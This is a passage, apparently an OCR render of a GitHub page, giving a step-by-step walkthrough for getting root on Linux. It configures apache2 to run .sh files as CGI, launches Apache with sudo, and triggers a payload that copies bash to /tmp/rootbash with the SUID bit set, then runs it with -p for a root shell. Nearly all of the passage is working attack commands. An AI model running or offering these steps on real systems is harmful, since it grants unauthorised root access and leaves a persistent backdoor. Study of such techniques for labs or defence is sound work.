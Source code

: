 ```apache
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>

# Logs
ErrorLog /tmp/hackroot/logs/error_log
LogLevel info
```

---

### 🛠 Step 2: Prepare Environment

#### 📁 Create logs directory:

```bash
mkdir -p /tmp/hackroot/logs
```

#### 🐚 Create the payload script:

```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > /tmp/hackroot/shell.sh
chmod +x /tmp/hackroot/shell.sh
```

---

### 🛠 Step 3: Run Apache in Debug Mode

```bash
sudo /usr/sbin/apache2 -f /tmp/hackroot/apache.conf -X
```

The `-X` flag runs it in the foreground with only one worker—great for debugging.

---

### 🛠 Step 4: Trigger the Payload

In another terminal:

```bash
curl http://127.0.0.1:9999/cgi-bin/shell.sh
```

---

### 🛠 Step 5: Get a Root Shell

If successful, you should now have an SUID root shell at `/tmp/rootbash`:

```bash
/tmp/rootbash -p
```

---